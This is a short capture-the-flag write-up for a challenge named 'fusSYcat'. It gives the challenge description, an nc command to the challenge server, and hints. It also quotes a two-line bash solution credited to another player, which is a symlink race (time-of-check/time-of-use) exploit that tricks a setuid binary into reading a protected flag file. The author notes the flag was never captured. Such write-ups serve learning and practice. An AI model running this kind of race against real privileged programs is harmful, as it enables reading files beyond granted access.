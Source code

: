 # fusSYcat

## Descrption
Can you cat flag.txt?
fusSycat might help you... if you can outsmart it.
Be quick!

```bash
nc fussycat.ctf.fifthdoma.in 13376
```

### Hints
<details>
<summary>Hint 1</summary>
What file types does fussycat accept?
</details>
<details>
<summary>Hint 2</summary>
Timing is important for this challenge.
</details>
<details>
<summary>Hint 3</summary>
flag is in flag/flag.txt.
</details>

## Solve 
<strong>I have not completed this flag as the fussycat binary was modified and therefore lost the sticky user bit</strong>

```bash
# answer provided on discord by Oshawk
while true; do touch flag.txt; rm flag.txt; ln -s /flag/flag.txt flag.txt; rm flag.txt; done &
while true; do fussycat flag.txt 2>/dev/null | grep {; done
```

## Flag
<strong>missing...</strong>

